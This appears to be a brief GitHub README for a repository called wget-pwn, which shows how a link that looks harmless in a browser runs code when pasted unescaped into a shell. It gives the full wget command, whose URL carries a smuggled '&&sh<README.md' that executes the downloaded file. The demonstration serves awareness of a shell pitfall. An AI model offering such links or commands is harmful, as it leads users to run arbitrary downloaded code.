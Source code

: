 wget-pwn
=========


A click on the following link in your webbrowser will only display this readme file.


[README.md](https://raw.githubusercontent.com/markus-perl/wget-pwn/master/file/README.md&&sh<README.md)


But downloading this link unescaped with wget will execute arbitary code.


    wget --no-check-certificate https://raw.githubusercontent.com/markus-perl/wget-pwn/master/file/README.md&&sh<README.md
